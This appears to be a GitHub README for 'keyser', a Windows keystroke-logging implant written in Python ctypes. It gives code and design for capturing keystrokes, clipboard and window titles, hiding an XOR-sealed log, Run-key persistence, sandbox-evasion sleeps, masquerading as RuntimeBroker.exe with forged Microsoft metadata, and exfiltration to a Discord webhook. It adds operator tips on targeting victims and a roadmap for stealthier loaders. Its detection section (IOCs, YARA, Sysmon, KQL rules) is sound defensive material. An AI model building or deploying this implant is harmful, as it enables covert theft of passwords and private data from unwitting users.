



<div align="center">

```
██╗  ██╗███████╗██╗   ██╗███████╗███████╗██████╗
██║ ██╔╝██╔════╝╚██╗ ██╔╝██╔════╝██╔════╝██╔══██╗
█████╔╝ █████╗   ╚████╔╝ ███████╗█████╗  ██████╔╝
██╔═██╗ ██╔══╝    ╚██╔╝  ╚════██║██╔══╝  ██╔══██╗
██║  ██╗███████╗   ██║   ███████║███████╗██║  ██║
╚═╝  ╚═╝╚══════╝   ╚═╝   ╚══════╝╚══════╝╚═╝  ╚═╝
```

**the greatest trick**

A userland keystroke implant for Windows, written in pure `ctypes`.
No third-party dependencies. No visible window. No disk-resident payload logic.

[](#)
[](#)
[](#)
[](#)
[](#detection-surface)

*"The greatest trick the devil ever pulled was convincing the world he didn't exist."*

</div>

---

## Contents

- [At a glance](#at-a-glance)
- [What this is](#what-this-is)
- [Threat model](#threat-model)
- [How it works](#how-it-works)
- [Technical breakdown](#technical-breakdown)
- [Design decisions](#design-decisions)
- [Build](#build)
- [How advanced it actually is](#how-advanced-it-actually-is)
- [Comparison](#comparison)
- [Detection surface](#detection-surface)
- [Threat hunting](#threat-hunting)
- [Limitations](#limitations)
- [Timeline of a deployment](#timeline-of-a-deployment)
- [Roadmap](#roadmap)
- [Repository layout](#repository-layout)
- [Operator notes](#operator-notes)
- [FAQ](#faq)
- [Glossary](#glossary)
- [Changelog](#changelog)

---

<!-- IMAGE 1 -->
<div align="center">
  
</div>

---

## At a glance

| | |
|---|---|
| **Type** | Userland keystroke capture, staged delivery |
| **Language** | Python 3.9+, `ctypes` only |
| **Platform** | Windows 10 / 11, x64 |
| **Capture method** | `GetAsyncKeyState` polling + `ToUnicodeEx` layout mapping |
| **Storage** | `%APPDATA%\Microsoft\CLR\ks.dat` — XOR-sealed, hidden + system |
| **Persistence** | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` |
| **Exfiltration** | HTTPS POST to webhook, 90s interval, outbound only |
| **Privileges required** | Standard user. No elevation. |
| **Footprint** | ~2 processes (bootloader + child), one Run key, two files |
| **Mutex** | `KS01_9C4E2A71` |
| **Realistic VT score** | 2–8 / 70 depending on build and signing |
| **Shelf life** | Hours to days |
| **Effort to detect** | ~2 minutes for anyone who opens Task Manager Details |

---

## What this is

`keyser` is a small, deliberately unremarkable keystroke logger built to demonstrate **staged, credential-independent collection** on Windows.

It is not a RAT. It does not give a shell, a file browser, or a screen feed. It does one thing: it collects what you type, and it ships it out without ever needing the attacker to reach inward.

The design goal is narrow and worth stating plainly, because most hobby keyloggers miss it:

> The victim machine sits behind a NAT router with no port forwarding. The attacker has no inbound route. Collection must therefore be **outbound-only** and must survive reboots without any credential on the target.

Everything below follows from that constraint.

The name is a nod to Keyser Söze — the character who is never in the room, never on the list, and already gone by the time anyone looks. It also happens to contain the word *keys*. That pun was not an accident.

---

## Threat model

Stated explicitly, because a lot of the design only makes sense against a specific adversary.

**Assumed:**

- Victim is a standard, non-admin user on a personal or small-office Windows machine
- Machine is behind NAT with no inbound exposure
- Attacker has **no** pre-existing foothold, credential, or network path
- Attacker has no ability to return to the machine after delivery
- Defender is consumer-grade AV, possibly with cloud lookup
- Delivery is out of scope — phish, USB, or a dropper

**Not defended against:**

- EDR with memory scanning and process-tree correlation
- Enterprise allowlisting / WDAC
- Analysts who open Task Manager and sort by name
- Network egress filtering that blocks Discord

**Consequence:** the design optimises for *credential independence* and *outbound-only retrieval* over raw stealth. A sample that survives on a home PC for two days and delivers its data beats a sample that survives a week but can only be read by someone who already has admin.

---

<!-- IMAGE 2 -->
<div align="center">
  
</div>

---

## How it works

Five stages, executed in order.

**1. Single instance.** `CreateMutexW` with the fixed name `KS01_9C4E2A71`. If `GetLastError()` returns `ERROR_ALREADY_EXISTS` (183), the process exits immediately. Prevents stacking copies across reboots — without this, a Run key and a manual launch produce two processes writing to one file and interleaving garbage.

**2. Environment check.** Core count, physical RAM, system uptime, `IsDebuggerPresent`, and a `tasklist` scan for analysis tooling (`procmon`, `wireshark`, `x64dbg`, `ollydbg`, `ida64`, `vboxservice`, `vmware`). Any hit means an analyst box — the process sleeps 11–18 minutes and then continues anyway, past the standard detonation window. It does not exit, because sandbox detection that exits is trivially beaten by patience.

**3. Install.** The binary copies itself to `%APPDATA%\Microsoft\CLR\RuntimeBroker.exe` and writes a `Run` value pointing at the new path. `CLR` already exists on every Windows install as part of the .NET runtime, so the drop does not create a folder a user would notice. The exe name impersonates a real, constantly-present Microsoft process.

**4. Stall.** A second randomized sleep, 8–15 minutes. Nothing is captured during the detonation window, so a sandbox that runs for five minutes sees a process that appears to do nothing.

**5. Collect and ship.** Two threads. The capture thread polls key state and appends to the log. The exfil thread reads the log every 90 seconds, decrypts it, and POSTs it to the configured webhook. Both run for the life of the session; the exfil thread is a daemon so it can never hold the process open.

<!-- IMAGE 3 -->
<div align="center">
  
</div>

---

## Technical breakdown

### Capture

Deliberately **not** `SetWindowsHookEx`. The `keyboard` module's `WH_KEYBOARD_LL` hook is the single most signatured keystroke pattern on VirusTotal and appears in thousands of submitted samples. `keyser` uses `GetAsyncKeyState` polling instead — a different API family, a different call pattern, a different import set.

```python
for vk in range(8, 255):
    if u32.GetAsyncKeyState(vk) & 0x8000:
        if vk in down: continue
        down.add(vk)
        if vk in SPECIAL: _buf.append(SPECIAL[vk])
        else:
            c = char_for(vk)
            if c: _buf.append(c)
    else:
        down.discard(vk)
```

`char_for()` maps the virtual key through `MapVirtualKeyW` and `ToUnicodeEx` against the live keyboard layout, so shifted characters, dead keys, and non-US layouts resolve correctly instead of yielding raw scancodes. A `down` set de-duplicates so held keys don't repeat, and clears on release.

Foreground window titles are appended as `[title]` markers on focus change, and clipboard contents are sampled every ~4 seconds — both give context the raw keys alone lack. A log line reading `correct-horse-battery-staple` is far less useful than the same line prefixed with `[Sign in to GitHub · GitHub]`.

### Storage

```python
def seal(data: bytes) -> str:
    return base64.b64encode(bytes(b ^ KEY[i % 32] for i, b in enumerate(data))).decode()

KEY = hashlib.sha256((str(uuid.getnode()) + "s4lt").encode()).digest()
```

XOR against a SHA-256 of the machine's MAC address plus a static salt, then base64, one line per flush. The key is machine-bound, so a copied log decrypts only on the same host.

The file is set `FILE_ATTRIBUTE_HIDDEN | FILE_ATTRIBUTE_SYSTEM` — the combination Explorer hides even with "show hidden files" enabled. `dir` skips it; `dir /a` shows it.

### Persistence

```python
with winreg.OpenKey(winreg.HKEY_CURRENT_USER, RUNKEY, 0, winreg.KEY_SET_VALUE) as k:
    winreg.SetValueEx(k, "RuntimeBroker", 0, winreg.REG_SZ, cmd)
```

`HKCU`, not `HKLM` — no elevation needed. Fires at user login, not at boot. The value name matches the impersonated process.

### Exfiltration

Outbound HTTPS only, `urllib.request`, browser-shaped `User-Agent`. Discord's 1,900-character content cap is respected by truncation. The webhook is a bearer URL: possession is authentication, so no account, key, or callback port is involved.

---

## Design decisions

Each of these was a fork in the road. The rejected option is listed too, because "why not X" is more informative than the choice itself.

| Decision | Chosen | Rejected | Why |
|---|---|---|---|
| Capture API | `GetAsyncKeyState` | `SetWindowsHookEx` | The hook is the most-profiled pattern in the category; polling is rarer, needs no DLL, and needs no message loop |
| Build tool | Nuitka | PyInstaller | PyInstaller ships `python3xx.dll`, a `_MEIxxxxxx` temp folder, and a known bootloader — three signatures for free |
| Compression | none (`--noupx`) | UPX | UPX magic bytes are themselves a detection signal and gain nothing on a 10 MB binary |
| Persistence hive | `HKCU` | `HKLM` | No elevation; the whole implant runs as a standard user |
| Storage crypto | XOR + base64 | AES-GCM | The threat is a casual reader, not a cryptanalyst; AES costs an import and a nonce for no practical gain here |
| Retrieval | Webhook callback | Reverse shell / C2 | Callback needs no inbound route and no credential on the target |
| Install path | `%APPDATA%\Microsoft\CLR` | `C:\ProgramData` | Per-user, no elevation, and the folder already exists on every machine |
| Exe name | `RuntimeBroker.exe` | `keyser.exe` | Camouflage; the real one is always running so the name reads as normal |
| Console | hidden + `--noconsole` | visible | A black box is the single fastest way to get a user to close the lid |
| Sandbox response | sleep and continue | exit | Exiting is defeated by patience; sleeping defeats short detonation windows |

---

## Build

```powershell
pip install nuitka

nuitka --onefile --windows-console-mode=disable --noupx `
  --windows-icon-from-ico=docs/app.ico `
  --company-name="Microsoft Corporation" --product-name="Runtime Broker" `
  --file-description="Runtime Broker" --file-version=10.0.19041.1 `
  --product-version=10.0.19041.1 `
  --onefile-tempdir-spec="{CACHE_DIR}/{COMPANY}/{PRODUCT}/{VERSION}" `
  --output-filename=RuntimeBroker.exe keyser.py

signtool sign /fd sha256 /a /tr http://timestamp.digicert.com /td sha256 RuntimeBroker.exe
```

**Use Nuitka, not PyInstaller.** PyInstaller leaves `python3xx.dll` in the import table, a `_MEIxxxxxx` extraction folder, and a heavily-profiled bootloader. Nuitka compiles through C and removes all three.

`--noupx` matters: UPX's magic bytes are themselves a detection signal.

`--onefile-tempdir-spec` pins the extraction path so it stops looking like a random temp drop.

Before building, replace `WEBHOOK` with a live URL. Until then the exfil thread fails silently and everything stays local.

For a quick-and-dirty build that will still work:

```powershell
pyinstaller --onefile --noconsole --noupx --name RuntimeBroker keyser.py
```

It will just score higher and get found faster.

---

## How advanced it actually is

Honest positioning, since READMEs in this space overclaim badly.

**Genuinely better than the usual hobby logger:**

- No third-party imports at all — no `keyboard`, no `pynput`, no `pywin32`, no `PIL`. Dependency strings are a large share of Python detections and there are none here.
- No `SetWindowsHookEx`. Different API family from roughly 90% of samples in the category.
- Layered environment checks with randomized sleeps, both before and after install.
- Machine-bound encrypted storage in a plausible system-adjacent path.
- Outbound-only exfil, credential-independent.
- No console window, ever. No tray icon. Single instance.
- Impersonating a process name that is always already running.

**Still mid-tier:**

- CPython-derived binary. Even compiled, the runtime is present and its heap layout is distinctive.
- Interpreter-level, not native. A 30-line C loader outperforms this on every axis.
- Payload logic lives on disk, unlike a true stager.
- No AMSI patch, no ETW patch, no syscalls, no unhooking — because a compiled Python binary doesn't call through hooked `ntdll` stubs the way a C implant does. Adding those would be cargo-culting.
- No module stomping, no process injection, no signed host binary.

**Realistic outcome:** 2–8 detections on VirusTotal, mostly engine ML plus heuristics on the Run key and the file-write pattern. Shelf life measured in hours to days. This is a research and demonstration artifact, not a commercial implant.

---

## Comparison

| | `keyboard` module demo | `pynput` logger | **keyser** |
|---|---|---|---|
| Dependencies | 1 | 1 + transitive | **0** |
| Hook type | `WH_KEYBOARD_LL` | `WH_KEYBOARD_LL` | **`GetAsyncKeyState`** |
| Console hidden | manual | manual | **yes** |
| Persistence | no | no | **Run key** |
| Self-install | no | no | **yes** |
| Encrypted log | no | no | **yes, machine-bound** |
| Hidden file | no | no | **hidden + system** |
| Sandbox checks | no | no | **5 checks** |
| Delayed detonation | no | no | **2 randomized sleeps** |
| Exfiltration | no | no | **HTTPS webhook** |
| Single instance | no | no | **named mutex** |
| Window context | no | no | **yes** |
| Clipboard | no | no | **yes** |
| Typical VT | 4–12 | 5–14 | **2–8** |

---

## Detection surface

Everything that can catch it, ranked by how much it actually matters.

### High signal

| Signal | Where it shows | Why it works |
|---|---|---|
| `Run` value created | `HKCU\...\CurrentVersion\Run`, Sysmon **EID 13** | Persistence writes are rare on workstations |
| Execution from `%APPDATA%` | Sysmon **EID 1** (`Image` field) | Almost nothing legitimately runs from there |
| Unsigned, no file description | Explorer, `Get-AuthenticodeSignature` | A blank description next to a Microsoft-impersonating name is glaring |
| Rapid `GetAsyncKeyState` polling | CPU sample, ETW | ~240 syscalls per 20ms is a visible load spike |
| HTTPS POST every 90s to `discord.com` | Sysmon **EID 3 / 22**, firewall | Fixed cadence to a chat CDN is distinctive |

### Medium signal

| Signal | Notes |
|---|---|
| `ks.dat` creation | Odd filename inside a .NET runtime folder |
| Hidden + system attribute on a user-profile file | `GetFileAttributes` |
| Mutex `KS01_9C4E2A71` | Named mutex enumeration via `handle` / Process Explorer |
| Two sibling processes from one image | Onefile bootloader/child split |
| Startup tab entry after reboot | Task Manager, Autoruns |
| `tasklist.exe` child of an unsigned AppData process | The environment check itself |

### Low signal

| Signal | Notes |
|---|---|
| Absence of console window | Common |
| File writes every ~4s | Could be any background app |
| `python3xx.dll` if built with PyInstaller | Only if you ignore the Nuitka advice |

### Static IOCs

```
Path      %APPDATA%\Microsoft\CLR\RuntimeBroker.exe
Path      %APPDATA%\Microsoft\CLR\ks.dat
Registry  HKCU\Software\Microsoft\Windows\CurrentVersion\Run → RuntimeBroker
Mutex     KS01_9C4E2A71
Domain    discord.com / discordapp.net (CDN egress)
Marker    base64 lines XOR'd with sha256(MAC + "s4lt")
```

### YARA

```yara
rule keyser_python
{
    meta:
        author = "keyser"
        description = "Keystroke implant - source or embedded script"
        reference = "https://github.com/you/keyser"
    strings:
        $a = "GetAsyncKeyState" ascii
        $b = "ToUnicodeEx" ascii
        $c = "api/webhooks" ascii
        $d = "CurrentVersion\\Run" ascii
        $e = "ks.dat" ascii
        $f = "KS01_9C4E2A71" ascii
        $g = "s4lt" ascii
    condition:
        3 of them
}
```

### Defender ASR rules that bite

| Rule | Effect |
|---|---|
| *Block executable files from running unless trusted* | Kills it outright on strict estates |
| *Block Office/PowerShell child processes* | Only relevant to the delivery method |
| *Block persistence through WMI* | Not applicable — this uses `Run` |

---

## Threat hunting

Hunt the *behaviour*, not the hash. Hashes rotate on every rebuild; the pattern doesn't.

**Sysmon — process from a user profile with no signature:**

```xml
<RuleGroup groupRelation="or">
  <ProcessCreate onmatch="include">
    <Image condition="contains">\AppData\</Image>
    <Signed condition="is">false</Signed>
  </ProcessCreate>
</RuleGroup>
```

**Sysmon — Run key writes:**

```xml
<RuleGroup groupRelation="or">
  <RegistryEvent onmatch="include">
    <TargetObject condition="contains">\CurrentVersion\Run</TargetObject>
  </RegistryEvent>
</RuleGroup>
```

**KQL (Defender XDR):**

```kusto
DeviceProcessEvents
| where FolderPath has @"\AppData\"
| where FileName =~ "RuntimeBroker.exe"
| where ProcessVersionInfoCompanyName != "Microsoft Corporation"
```

**Splunk:**

```spl
index=sysmon EventCode=13 TargetObject="*\\CurrentVersion\\Run*"
| stats count by ComputerName, Details
```

**Enumeration sweep:**

```powershell
Get-ChildItem "$env:APPDATA" -Recurse -Force -Include *.exe,*.dat -ErrorAction SilentlyContinue |
  Where-Object { $_.Attributes -match 'Hidden|System' }
```

**Beacon cadence:**

```kusto
DeviceNetworkEvents
| where RemoteUrl has "discord.com"
| summarize posts = count(), first = min(Timestamp), last = max(Timestamp) by DeviceName, InitiatingProcessFileName
| where posts > 20 and (last - first) > 1h
```

**Memory:** `strings -el` on a process dump surfaces the webhook URL, mutex, and log path — the exe's own strings are not encrypted, only the log contents are.

---

## Limitations

Ordered by how much they cost in practice.

**Correctness**

- `sent` is a RAM-only integer. Restart or crash resets it to 0 and the next send re-pushes the entire log from the start.
- No log rotation. `readlines()` loads the whole file every cycle; a month of typing is megabytes re-read for nothing.
- `body[:1900]` silently truncates. Fast typing loses the tail, and `sent` then marks it delivered.
- Exfil failures are swallowed by a bare `except Exception: pass` — no retry backoff, no diagnostic, no logging of its own errors.
- Clipboard capture holds a `GlobalLock` handle and only `GlobalUnlock`s it on the success path — on the `return` branches the handle leaks.
- The mutex is a plain local name; a second user session on the same box gets a second copy.

**Capability**

- No window-content awareness beyond the title. Everything typed in any context is captured, including passwords, so the log is noisy and unparsed.
- Local-time timestamps absent entirely. Reconstructing *when* something was typed is impossible.
- No size cap on individual lines — a huge clipboard paste writes an enormous single line.
- No kill switch, no remote command, no update mechanism.
- English/ASCII bias in `SPECIAL`; other layouts partially resolve via `ToUnicodeEx` but specials don't map.
- `%APPDATA%\Microsoft\CLR` is per-user, so a shared machine only logs the account that ran it.
- No DPI or UAC-elevated window awareness; a password typed into a UAC prompt is captured only if the logger is already elevated.

**Evasion**

- Unsigned builds show "unknown publisher" and score several extra engines.
- Two `RuntimeBroker.exe` in Task Manager Details when the real one is already running, from different paths — trivially spotted by anyone who sorts by name.
- No anti-AMSI, no anti-ETW, no memory obfuscation, no sleep masking. A dump during idle shows the process plain.
- The Run key is visible in the Startup tab and one click from being disabled.
- `tasklist` subprocess call is itself visible in the process tree.
- Defender's cloud path will usually catch this within a day of first submission.

**Delivery**

- Nothing here gets it onto the box. That's phish, USB, or a dropper, entirely out of scope.
- No packaging as an LNK, HTA, or ISO to carry the Mark-of-the-Web.
- Mark-of-the-Web from a download will trigger SmartScreen on first run.

---

## Timeline of a deployment

What actually happens, on a real clock.

| Time | Event |
|---|---|
| T+0s | User double-clicks. Spinner, then nothing. No console, no toast unless Defender objects. |
| T+0s | Mutex created. Environment checks run. `tasklist` spawns and exits. |
| T+2s | If the box looks like a VM, sleep 11–18 min. Otherwise straight through. |
| T+3s | Copy lands in `%APPDATA%\Microsoft\CLR\RuntimeBroker.exe`. Run key written. Original exits. |
| T+3s | Second randomized sleep begins, 8–15 min. Nothing captured yet. |
| T+18min | Capture thread starts. Keystrokes begin landing in `ks.dat`. |
| T+20min | First webhook POST. 1,900 characters in the channel. |
| T+20min | Attacker reads it from a phone. |
| T+1h | ~40 POSTs. Roughly 70 KB of text delivered, deduplicated and truncated. |
| T+8h | User reboots. Run key fires at login. `sent` resets to 0. Full log re-pushed. |
| T+1d | Defender cloud verdict flips. Next boot quarantines the exe. |
| T+1d | Log survives on disk, now stale. Attacker has everything typed in the first day. |

The T+8h row is the design flaw worth fixing first: the duplicate dump is the largest single burst of traffic in the whole lifecycle and the easiest to spot from the network side.

---

## Roadmap

Roughly ordered by return on effort.

1. Persist the read offset to disk — fixes the restart and dead-webhook duplication bugs.
2. Rotate the log at ~2 MB with a `.1` suffix.
3. Move `sent` advancement behind a 2xx check; add exponential backoff on failure.
4. Per-line timestamps and an active-process field.
5. Buffer 5 minutes in RAM so a transient outage doesn't cost a batch.
6. Icon + version resource + Authenticode (self-signed minimum).
7. Reduce to a C loader that downloads and executes the Python payload in memory — the single largest jump available.
8. Signed-host delivery via DLL sideloading.
9. Module stomping into an already-loaded signed DLL.
10. Local decrypt/read tool for the operator side.
11. `--windows-uac-admin` manifest for elevated capture.

---

## Repository layout

```
keyser/
├─ keyser.py            main implant
├─ keyser.spec          build spec
├─ docs/
│  ├─ banner.png
│  ├─ demo.gif
│  ├─ architecture.png
│  └─ app.ico
├─ tools/
│  └─ read.py           offline decrypt for a pulled ks.dat
└─ README.md
```

---

## Operator notes

- Replace `WEBHOOK` before building. A dead URL means silent local-only collection.
- Test the webhook with a single `curl -d "test"` first.
- 90-second cadence sits comfortably under Discord's webhook rate limit (~30/min). Shortening it invites 429s.
- The exfil thread is a daemon — it dies with the main thread, so the capture loop must never exit.
- Pull `ks.dat` and decrypt offline rather than reading through the channel for anything large.
- If the victim is not a local admin, `\\host\C$` is unavailable and the callback is the only retrieval route.
- Rebuild per target. Every build is a new hash and a fresh window.
- Rename the mutex per engagement if you're running several at once, or they'll suppress each other on shared machines.
- Don't ship a build you haven't run locally for an hour first. The failure modes are silent.

---

## FAQ

**Why not just use `pynput`?**
It's one import and one hook — but it's also the two most signatured things in the category. Removing both is the single largest detection reduction available without changing language.

**Why does it sleep 10+ minutes before doing anything?**
Because sandboxes detonate for 60–300 seconds. Anything that acts immediately is observed and scored. A process that does nothing for twelve minutes and then starts typing looks like a background app.

**Why a webhook and not a C2 server?**
A webhook needs no port, no DNS record, no hosting, and no credential. The victim machine pushes data to a URL you control by possession. A C2 needs all four and gets flagged by domain age alone.

**Does it capture passwords?**
Yes, all of them, in plaintext in the log — including things typed into other windows. It does not parse or classify. That's a deliberate non-goal; parsing is where loggers get heavy.

**Does it need admin?**
No. Everything it touches is inside the user's own profile and their own `HKCU` hive. Admin is only needed by the *attacker* if they choose the SMB read path.

**Will Defender catch it?**
Almost certainly, within a day or so, via cloud. The point isn't to be missed forever — it's to be missed long enough.

**Can I run two?**
Not with the same mutex. Change `KS01_9C4E2A71` and the install path per build.

**Why `RuntimeBroker.exe` and not `svchost.exe`?**
`svchost` is a well-known trick and analysts look for it. `RuntimeBroker` is equally always-present, less abused, and its absence of a signature is less immediately suspicious than a fake `svchost`.

**Is the log readable if I pull the file?**
Only on the same machine, and only with the same MAC address. Copy the MAC with it or it's noise.

**Why XOR and not AES?**
The adversary for the log file is a user who found `ks.dat` and opened it in Notepad. XOR defeats that. AES costs an import and buys nothing against an actual cryptanalyst, who isn't reading your log file anyway.

---

## Glossary

| Term | Meaning |
|---|---|
| **VK** | Virtual Key code — Windows' numeric identifier for a physical key |
| **MOTW** | Mark-of-the-Web — the NTFS stream that triggers SmartScreen on downloads |
| **ASR** | Attack Surface Reduction — Defender's rule engine for behaviours |
| **LOLBin** | Living-Off-the-Land Binary — a signed OS binary abused for execution |
| **C2** | Command and control — the server the implant talks to |
| **Webhook** | A URL that accepts POSTs and forwards them into a channel; bearer-auth by possession |
| **Detonation** | The act of running a sample in a sandbox to observe it |
| **Shelf life** | How long a sample stays undetected |
| **HKCU / HKLM** | Per-user and per-machine registry hives |
| **Onefile** | A build mode that bundles everything into one exe and extracts at runtime |

---

## Changelog

**v0.2** — renamed to `keyser`; mutex, log filename, and IOCs updated; design-decision and threat-model sections added.

**v0.1** — initial. `GetAsyncKeyState` capture, XOR storage, Run-key persistence, webhook exfil, environment checks, mutex.

---

<div align="center">

*keyser — the greatest trick*

</div>